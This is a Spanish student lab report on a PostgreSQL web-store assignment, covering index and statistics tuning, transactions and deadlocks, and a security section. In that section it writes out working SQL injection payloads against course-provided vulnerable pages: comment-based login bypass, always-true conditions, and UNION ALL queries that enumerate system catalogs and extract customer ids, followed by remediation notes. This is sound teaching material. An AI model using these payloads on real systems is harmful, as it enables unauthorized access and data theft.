



*Javier López Cano y Javier Delgado del Cerro*

# Practica 4 - Memoria

## Optimización

### Apartado A

Al ejecutar la consulta que hemos implementado en el fichero `clientesDistintos.sql` sin generar ningun índice sobre la tabla `orders` observamos que la ejecución tarda alrededor de 40 milisegundos y la sentencia `EXPLAIN` nos muestra el siguiente plan de ejecución:


Si realizamos la misma operación introduciendo un índice en la columna orderdate vemos que el tiempo de ejecución apenas cambia, quedándose alrededor de los 38 msec. Y obtenemos el siguiente plan de ejecución:


Se puede observar que el plan de ejecución no varía en absolutro tras introucir el índice en `orderdate`, esto se debe a que, al no emplearse directamente el dato de orderdate directamente para filtrar la consulta, sino una función de este, el hecho de que la columna en sí esté indexada no es relevante para la búsqueda.

Al introducir un índice en `totalamount` se aprecia una ligera bajada en el tiempo de ejecución de la consulta que se queda en torno a los 32 msec con el siguiente plan de ejecución:


En esta ocasión observamos que el índice sobre `totalamount` si se emplea en la búsqueda, cambiando norablemente el plan de ejecución de la consulta. Además se ve claramente que se produce una significativa bajada en el coste de la consulta al emplear el índice, concretamente bajando del 6162 obtenido en el caso anterior, a 4783, lo que explica la bajada en el tiempo de ejecución.

Tras esto retiramos los índices sobre `orderdate` y `totalamount` e introducimos dos nuevos sobre funciones de `orderdate`, concretamente sobre `date_part('year', orderdate)` y `date_part('month', orderdate)` que son las empleadas para filtrar la consulta y, por tanto, son los índices que más probabilidades tienen de mejorar la eficiencia de la consulta. Al emplear estos índices se obtiene una mejora importante, haciendo que el tiempo de ejecución baje hasta los 15 msec, y obteniendo el siguiente plan de ejecución:


Podemos ver que ambos índices se emplean directamente provocando una enorme bajada del coste de la consulta del 6162 de la consulta inicial a un coste bajísimo de 58, aumentando notablemente su rendimiento.

Probamos ahora a introducir el índice sobre `totalamount` empleado anteriormente y observamos que no se da ninguna mejora en el tiempo de ejecución manteniendose en los 15 msec, con el siguiente plan:

El plan de ejecucón no varía al introducir este índice y vemos que este no se emplea. Esto puede deberse a que los dos índices sobre las funciones de `orderdate` reduzcan la búsqueda lo suficiente como para que no sea necesario emplear este índice. Esto explica que el tiempo de ejecución de la consulta no cambie, y por tanto hace que este índice sea completamente inútil.

En conclusión podemos ver claramente que los índices más óptimos son los dos índices sobre las funciones de `orderdate`.

### Apartado B

Tras implementar el acceso a base de datos de la página `listaClientesMes` en la función con el mismo nombre del fichero `database.py` probamos su funcionamiento con y sin la sentencia `PREPARE` de SQL para ver las diferencias de rendimiento en el tiempo de ejccución.

Sin emplear la sentencia prepare vemos que la consulta tarda unos 237 msec mientras que con el `PREPARE` baja ligeramente a 220 msec, lo que supone una ligera mejora al preparar la ejecución de la sentencia.

Probamos ahora a introducir los índices óptimos del apartado anterior sobre las funciones de `orderdate`.

Observamos una gran mejora en el rendimiento, haciendo que sin el `PREPARE` el tiempo de ejecución se quede en 158 msec y empleándolo, mejore ligeramente hasta 144 msec.

Ahora probamos a generar las estadísticas obteniendo sinel uso de índices un tiempo de 242 msec sin `PREPARE` y uno de 224 empleando esta sentencia.

Por último empleamos los índices con el uso también de estadísticas, obteniendo los mejores tiempos hasta el momento con 54 msec sin `PREPARE` y 78 msec al emplearlo, lo que supone una bajada de eficiencia.

Observando los resultados se puede ver que lo que más aumenta el rendimiento de la query es el uso de índices. Las estadísticas aumentan el rendimiento notablemente también pero solo en el caso en el que ya se están empleando índices. Esto puede deberse a que las estadísticas generadas son mucho más eficientes sobre tablas indexadas que si se realizan sobre tablas sin ningún tipo de índice.
Se observa que el único caso en que el `PREPARE` empeora el rendimiento es el caso más rápido, esto puede ser debido a que en los casos en los que la consulta ya de por sí es muy rápida (en nuestro caso cuando se usan los índices y las estadísticas a la vez), es mayor el tiempo de ejecución del `PREPARE` que la mejora que se produce en la ejecución de la consulta cuando se usa este, haciendo que el tiempo total sea mayor.
Por este motivo el `PREPARE` puede ser contraproducente en los casos en que la consulta a realizar ya sea muy rápida.

### Apartado C

Ejecutamos la primer aconsulta propuesta y observamos que tarda unos 115 msec en ejecutarse, y nos proporciona el siguiente plan de ejecución.


En esta consulta los resultados pueden mostrarser poco a poco pues, en la ejecución, para cada customerid se asegura de que este no esté en la tabla auxiliar creada, y tras esto puede imprimirlo, sin necesidad de esperar a que se compruebe el resto de ids. Esto se observa en el plan de ejecución ya que a cada fila del "Subplan1" se le aplica el filtro y según este es aplicado se puede ir imprimiendo el resultado antes de seguir aplicando el filtro a las filas siguientes.

Tambien se observa que esta consulta no se puede realizar en paralelo, al no tener varias sub-querys que se puedan ejecutar al mismo tiempo.

La segunda consulta tarda unos 130 msec y emplea el siguiente plan de ejecución:


No se puede mostrar poco a poco porque el `HAVING` se aplica sobre toda la tabla a la vez, no poco a poco. Se puede hacer en paralelo ya que, como se observa en el plan de ejecución existen 2 sequential queries que se ejecutan en el mismo nivel de profundidad y son independientes entre sí, por lo que en caso de paralelizarse el proceso podrían ejecutarse al mismo tiempo sin problemas mejorando el tiempo de ejecución de la consulta.

Por último, la tercera consulta tarda un tiempo muy similar a la segunda, situándose alrededor de los 130 msec con el siguiente plan:


No se puede mostrar poco a poco porque hay que hacer el except, que requiere computar una tabla completa menos la otra.

Se puede ejecutar en paralelo porque se calculan ambas tablas (que podría hcerse al mismo tiempo) y luego se ejecuta el except, como se observa en el plan de ejecución del mismo modo que en la consulta anterior.

### Apartado D

Para estudir el efecto del uso de estadísticas con `ANALYZE` sobre las consultas en una base de datos, probamos en primer lugar las 2 consultas propuestas sin generar ningún tipo de estadísticas ni índices.

Con la primera sentencia obtenemos un tiempo de 52 msec y el siguiente plan:


En la segunda el tiempo es de 62 msec con el siguiente plan de ejecución:



Probamos ahora las mismas 2 sentencias empleando un índice sobre la columna `status` de la tabla, pyes es el que consideramos que mejorará más el rendimiento de estas consultas.

En este caso en la primera consulta no se observa ninguna mejora manteniéndose en un tiempo similar de  58 msec  ya que como vemos en el plan de ejecución, el índice se emplea para generar el mismo filtro que ya se empleaba sin el uso de índices.


La segunda sentencia obtiene el mismo plan de ejecución que la primera con un tiempo similar, de 62 msec, por los mismos motivos que la primera sentencia.


Tras estas pruebas, generamos las estadísticas sobre la tabla con el uso de `ANALYZE`, y probamos las consultas para ver como afectan al rendimiento las estadísticas generadas.

Con el uso de estadísticas se observa una enorme bajada en el tiempo de ejecución de la primera consulta, con un tiempo de 14 msec y el siguiente plan de ejecución.


Sin embargo, la segunda consulta empeora notablemente su rendimiento, con un tiempo de ejecución de 104 msec.


Se observa claramente que si no empleamos estadísticas, el uso de los índices no genera ninguna mejora apreciable en el rendimiento de la consulta. Sin embargo, al usar estadísticas, se observa que los índices comienzan a tener repercusión.

Sorprende que en la primera consulta el uso de estadísticas mejora notablemente el rendimiento mientras que en la segunda el rendimiento empeora considerablemente. Esto se debe a que ANALYZE colecciona estadísticas sobre las tablas de la base de datos para que luego sean consultadas para que la consulta se realice de forma más eficiente. Si los datos de la tabla generan unas estadísticas que faciliten la consulta a realizar la eficiencia mejorará, sin embargo en caso de que estas estadísticas no proporcionen datos relevantes, el tiempo de ejecución de la consulta puede aumentar debido al tiempo extra que lleva la consulta de las propias estadísticas recolectadas.

Además, destaca que el plan de ejecución de las 2 primeras consultas es el mismo hasta que se ejecuta el analyze. Esto se debe a que ambas consultas comprueban las mismas columnas de las mismas tablas, y lo hacen en el mismo orden al estas escritas de forma prácticamente idéntica. Sin embargo, esto varía al generar las estadísticas ya que, aunque las consultas siguen siendo las mismas, las estadísticas generadas para el caso en el que el status es NULL o el status es Paid serán distintas, haciendo que tras consultar las estadísticas se optimice la consulta modificando su plan de ejecución, y, por tanto, los planes de ejecución de las consultas tras el analyze son diferentes.

Para observar como varía la eficiencia de las consultas con estadísticas en función de que dato específico utiliza para filtrar los datos, estudiamos el plan de ejecución de las 2 consultas extras que se nos proporcionan.

La primera de esta 2 sentencias extra tarda  32 msec y nos muestra el siguiente plan de ejecución:


La última tarda unos 44 msec  con el siguiente plan:


En ambos casos se observa que las consultas son rápidas con el uso de estadísticas, pero menos que la consulta 1, esto puede deberse a que las estadísticas recolectadas en el ANALYZE para estas 2 consultas (los valores de status Paid y status Processed) sean menos resolutorias y por tanto, aunque ayuden a mejorar la eficiencia de la consulta, no sean capaces de mejorarla hasta el mismo punto que la primera consulta.

## Transacciones y deadlocks
### Apartado E
Para este apartado, desactivamos las restricciones *ON DELETE CASCADE* referentes al cliente y sus
pedidos, manteniendo las foreign keys, y desarrollamos la función *delCustomer* cuya estructura se aporta en el fichero *database.py*.
Como contestación al apartado *j*, se hace un commit intermedio para dejar la base de datos en un estado inconsistente, y como esto finaliza la transacción, asegurando que todos los cambios hechos durante la transacción se hacen correctamente, hay que inicializar una nueva después.

A continuación mostramos algunos ejemplos de la salida de la página web en función de los parámetros recibidos:
- Transacción con SQL/SQLAlchemy y error de integridad:
En ambos casos, se puede ver en la base de datos que no hay ningún cambio en los artículos, los pedidos o el usuario.


- Transacción con SQL/SQLAlchemy, error de integridad y commit intermedio:
En ambos casos, se puede ver en la base de datos como han desaparecido las entradas de la tabla orderdetail asociadas al order del usuario con status NULL (por haber hecho un commit intermedio), sin embargo, las tablas orders y customers no varían.


- Transacción exitosa con SQL/SQLAlchemy:
En ambos casos, se puede ver como el usuario ha desaparecido de la tabla customers, todos sus pedidos han desaparecido de la tabla orders, y todos los artículos de los pedidos han desaparecido de la tabla orderdetail, por lo que el usuario se ha borrado con éxito.


### Apartado F
Una vez finalizado el apartado anterior, programamos el script *updPromo.sql* con las condiciones pedidas.

Para probar los bloqueos, insertamos los siguientes comandos en la shell de postgresql para modificar algunas orders y ponerlas con status NULL, de forma que se comporten como carritos:

```sql
UPDATE orders SET status=NULL where orderid=108;
UPDATE orders SET status=NULL where orderid=114;
UPDATE orders SET status=NULL where orderid=120;
UPDATE orders SET status=NULL where orderid=131;
UPDATE orders SET status=NULL where orderid=155;
```

Esto implica que hemos definido un carrito para los usuarios con customerid 1, 2, 3, 4 y 5.

Como las preguntas propuestas están bastante relacionadas entre sí,se discuten todas, desde la *h* hasta la *f* a continuación:

Una vez modificadas las entradas de la tabla orders, accedemos a la página para borrar el cliente con customerid 1, y simultáneamente hacemos un update de su columna promo. Esto nos permite confirmar que durante el sleep los cambios hechos (más allá de la actualización de la columna promo del usuario) no son visibles pues el trigger está bloqueado y no ha podido hacer ningún cambio, y como la pagina web utiliza una transacción, y esta no ha finalizado, sus cambios tampoco son visibles.

Si llamamos primero desde la pagina web a eliminar un usuario, y acto seguido actualizamos el campo promo del usuario, al iniciar desde Python una transacción que modifica las entradas orderdetail del usuario, estas se bloquean, de forma que el trigger tiene que esperar a que la transacción finalice para poder ejecutarse. Esto deja un rastro en postgresql en forma de bloqueo, que se puede apreciar en la siguiente captura:


El tiempo que duerme el trigger está establecido por defecto en 20 segundos, si a la página web se le hace dormir unos segundos de más, el deadlock aparece también al ejecutar en primer lugar el update de la columna promo de customers, y en segundo lugar la petición a la web. Esto se debe a que una vez el trigger haya ejecutado el primer update, duerme los veinte segundos, en los cuales el servidor inicia la transacción bloqueando las filas de la tabla orders asociadas al usuario, y no las suelta hasta el final (por tener transacciones con aislamiento de nivel tres), para lo cual el servidor tendrá que dormir el tiempo indicado por el usuario. Una vez el servidor libere los locks, el trigger podrá finalizar.

Para solucionarlo, podríamos reducir el grado de aislamiento de las transacciones, sin embargo, esto quita gran parte del sentido, pues provocaría posibles fallos e inconsistencias en la base de datos.


## Seguridad
### Apartado G

Sabiendo que la query empleada para seleccionar el usuario a logear tiene la forma:

```sql
SELECT * FROM customers WHERE username='campo_username' AND password='campo_password';
```

Y sabiendo que `campo_username` y `campo_password` son 2 strings extraidas directamente de los campos de texto del formulario sin pasar ningún ipo de cntrol de errores, podemos intentar aprovecharnos de este fallo de seguridad para logearnos sin las credenciales necesarias.

Para ello introducimos en los campos de texto del formulario de login fragmentos de código SQL que, al introducirse en las posiciones correspondientes a `campo_username` y `campo_password` hagan que la consulta realizada a la base de datos de el resultado que queremos, que, en este caso, es el usuario como el que queremos logearnos.

##### a)

Para logearnos como un usuario con username conocido, tan solo es necesario introducir en el campo de texto username el nombre de usuario que queremos seguido de una comilla `'` para indicar que finaliza el string correspondiente al usernme, y tras esto dos guiones `--` para indicar que comienza un comentario.

De este modo, con el usuario 'gatsby' obtendríamos la siguiente consulta resultado:

```sql
SELECT * FROM customers WHERE username='gatsby'--' AND password="campo_password";
```

Donde todo lo que hay tras `--` no se ejecutará pues es un comentario, por tanto lo que se introduzzca en el campo de contraseña nos da igual. De este modo esta query devolverá los usuarios con username 'gatsby' y nos permitirá logearnos en su lugar al no comprobar la contraseña.

La salida producida en la página `xLoginInjection` que se nos proporciona es la siguiente:



Por tanto nos hemos logeado correctamente con el usuario 'gatsby' cuyo nombre y apellido es 'italy doze'.

##### b)

En caso de no conocer ningún nombre de usuario, esto no es un problema, pues basta con rellenar ambos campos de texto del formulario con fragmentos de código SQL que hagan que el resultado de ambas comprobaciones del `WHERE` sea `TRUE`, devolviendo así toda la lista de usuarios.

Aunque la consulta devulva una lista con todos los usuarios, esto no es problema ya que la función `getCustomer()`del fichero `database.py` tan solo coge la primera entrada de la lista mediante el uso del método `.first()`, de este modo obtendríamos como resultado de la consulta el primer usuario de la tabla   `customers`.

Para conseguir este resultado, introducimos en el campo de username una string cualquiera seguida de una comilla `'` para indicar el final del username y tras esto añadir `OR` seguido de una condición que sea siempre `TRUE` como `'a'='a` Tras esto, tenemos dos opciones, o bien hacemos lo mism que en apartado `a)` introduciendo `'--`tras esto para hacer que se ignore el campo de password; o bien introducimos en el campo password otra condición que siempre sea `TRUE`, por ejemplo, repitiendo lo mismo que en el campo username. En este segundo caso es importante no poner la comilla `'` tras la segunda `a` en ambos campos del texto del formulario, de modo que se emplee la comilla de cierre de la propia consulta como final de la string 'a'. Las consultas resultantes serían las siguientes:

En caso de emplear los guiones para comentar la comprobación de la password:

```sql
SELECT * FROM customers WHERE username='' OR 'a'='a'--' AND password="campo_password";
```

En caso de rellenar ambos campos de texto del formulario:

```sql
SELECT * FROM customers WHERE username='' OR 'a'='a' AND password='' OR 'a'='a';
```

Para probar esto en la página `xLoginInjection` hemos empleado el primer caso, pero el segundo tendría el mismo resultado:


De este modo nos hemos registrado como el usuario con nombre y apellido 'pup nosh'.

##### c)

La mejor forma de solucionar este problema sería almacenar las contraseñas codificadas en la base de datos, en lugar de guardarlas en un fromato completamente legible. De este modo, aunque seobtenga la contrasea de la base de datos mediante la inyección de código SQL, esa contraseña no será válida para autenticarse en la página a no ser que se decodifique.

Otra forma bastante eficaz de evitar este timpo de problemas de seguridad se podrían solucionar si, en vez de emplear consultas SQL directamente escritas concatenando los campos del formulario, se empleasen los métodos proporcionados por sqlAlchemy como el método `.where()` que comprueban que las strings que se les pasa por parámetro son correctas.


### Apartado H

##### a)

Por los datos que nos proporciona el enunciado sabemos que la consulta que emplea la página `xSearchInjection` emplea en su acceso a base de datos una consulta similar a:

```sql
SELECT columna_título FROM tabla_películas WHERE columna_anio = '<variable>';
```

Aunque no sabemos los nombres de las tablas ni las columnas de estas.

El no disponer de los nombres de las tablas y sus columnas, a pesar de dificultar ligeramente el trabajo para lograr acceder a los datos, no es un problema pues mediante la inyección de código SQL en el campo de búsqueda, y sabiend que la base de datos es de tipo `POSTGRESQL` podemos obtener estos datos accediendo a las tablas del catálogo `pg_class, pg_attribute, pg_namespace...`

A pesar de que sabemos que la consulta es similar a la mostrada, no sabemos si esta es la forma exacta de la consulta, o si tiene más condiciones a continuacion, pues no sabemos la estructura de la base de datos ni del código de la página. Pero esto tampoco supone un problema pues no vamos a usar el resultado de esta consulta para nada, por lo que nos vale con saber que podemos finalizar esta consulta simplemente introduciendo en el campo de búsqueda una comilla `'` para tras esto, empleando el `UNION ALL` de SQL, adjuntar  a los resultados de esta consulta los de la consulta que queramos realizar nosotros. Además al dejar vacío el campo `columna_anio` lo más probable es que el resultado de la primera query sea nulo, no añadiendo datos inútiles a los deseados.

Por último tampoco nos importa que la consulta continúe tras el campo `<variable>` pues al iyectar código SQL en el campo de búsqueda terminaremos siempre con dos guiones `--` , de modo que todo el código SQL que haya despues de ese campo se comente, y por tanto no afecte a los resultados de la consulta que queremos realizar.

##### b)

La consulta SQL que nos permite ver todas las tablas del sistema será la que nos devuelve la columna relname de la tabla pg_class, es decir:

```sql
SELECT cast(relname AS VARCHAR) FROM pg_class;
```

Para conseguir el resultado de esta consulta, podemos emplear `UNION ALL` de sql para unir los resultados de la consulta del programa con los de la query que nosotros queremos que se ejecute, de este modo introduciendo en el campo de búsqueda :

```
' UNION ALL SELECT cast(relname AS VARCHAR) FROM pg_class --
```

Obtendremos la consulta:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT cast(relname AS VARCHAR) FROM pg_class --;
```

Que, al no introducir año, no devolverá ningún título de película sino solo los nombres de las tablas que son los datos que nos interesan.


(No se muestran todas las tablas obtenidas pues son demasiadas).

##### c)

Para mostrar únicamente las tablas que nos interesan y no todas las del sistema, buscamos el `oid` de las tablas públicas con la consulta:

```sql
SELECT nspname, oid FROM pg_namespace;
```

Para ello introducimos en el campo de búsqieda:

```
' UNION ALL SELECT cast(oid AS VARCHAR) FROM pg_namespace WHERE nspname = 'public' --
```

De modo que se ejecuta en la página la consulta completa:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT cast(oid AS VARCHAR) FROM pg_namespace WHERE nspname = 'public' --;
```

Con esto vemos que este `oid` es el 2200.


Tras esto, diseñamos la consulta que nos devuelve esas tablas, que es:

```sql
SELECT cast(relname AS VARCHAR) FROM pg_class WHERE relnamespace = 2200;
```

Para lograr que se ejecute esta consulta debemos introducir en el campo de búsqueda:

```
' UNION ALL SELECT cast(relname AS VARCHAR) FROM pg_class WHERE relnamespace = 2200 --
```

Obteniendo así la siguiente consulta total:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT cast(relname AS VARCHAR) FROM pg_class WHERE relnamespace = 2200 --;
```

Que nos devuelve el resultado deseado:



(No se muestran todas las tablas que se obtienen pues son demasiadas).

##### d)

De todas las tablas que se nos muestran con la consulta del apartado anterior, la que claramente tiene mayor probabilidad de contenr lainformación de los clientes es la tabla `customers`.

##### e)

Para obtener el `oid` de esta tabla, queremos que se ejecute la siguiente consulta:

```sql
SELECT oid FROM pg_class WHERE relname = 'customers';
```

Para obtener los resultados de esta consulta introducimos en el campo de búsqueda:

```
' UNION ALL SELECT cast(oid AS VARCHAR) FROM pg_class WHERE relname = 'customers' --
```

De modo que se ejecuta en el programa la siguiente consulta completa:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT cast(oid AS VARCHAR) FROM pg_class WHERE relname = 'customers'--;
```

Que nos mustra que el `oid` de esta tabla es el 247953.


##### f)
Para conseguir los nombres de las columnas de la tabla debemos emplear la siguiente consulta:

```sql
SELECT attname FROM pg_attribute WHERE attrelid = 247953;
```

Para obtener los resultados de esta consulta introducimos en el campo de búsqueda:

```
' UNION ALL SELECT attname FROM pg_attribute WHERE attrelid = 247953 --
```

De modo que se ejecuta en el programa la siguiente consulta completa:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT attname FROM pg_attribute WHERE attrelid = 247953 --;
```

Que nos muestra que esta tabla tiene las siguientes columnas:


##### g)

De las columnas obtenidas, la que entendemos que es más útil para gestionar datos del usuario en la base de datos (pues debido a su nombre probablemente sea la `Primary Key`, y además es la única que nos garantiza que es un dato único para cada usuario pues es un identificador columna de `customerid`, y por tanto es la que emplearemos para obtener una lista de clientes.

##### h)

Para conseguir los datos de la columna `customerid` y, por tanto, la lista de clientes, creamos una consulta:

```sql
SELECT customerid FROM customers;
```

Para obtener los resultados de esta consulta introducimos en el campo de búsqueda:

```
' UNION ALL SELECT customerid FROM customers --
```

De modo que se ejecuta en el programa la siguiente consulta completa:

```sql
SELECT columna_titulo FROM tabla_peliculas WHERE columna_anio = '' UNION ALL SELECT customerid FROM customers --;
```

Que nos devuelve la lista de clientes (representados por su identificador):


(No se muestran todos los resultados pues son demasiados).

##### i)

Para solucionar el grave problema de seguridad que tiene esta página en su acceso a base de datos, del mismo modo que en el apartado G, se podrían emplear las funciones proporcionadas por librerías de gestión de base de datos como `SQLAlchemy` en lugar de codificar directamente a mano sobre el código del servidor las consultas SQL.

Emplear una lista desplegable también solucionaría el problema pues evitaría que se pudiese introducir código SQL en el campo de búsqueda. Sin embargo esta sería una solución pobre ya que el acceso a base de datos seguiría siendo inseguro y podría presentar problemas si en otra URL de la página se necesita usar un campo de texto.

Aunque se decidiese usar el método POST en vez del GET en la página, este tipo de ataques seguiría siendo posible y no se solucionaría pues el problema de seguridad en este caso no esta en el envío de datos del cliente al servidor, sino en como se emplean los datos a la hora de acceder a la base de datos de la página. A pesar de esto emplear el método POST en vez del GET sería positivo pues solucionaría otros problemas de seguridad relativo al paso de datos del cliente al servidor evitando otro tipo de ataques.
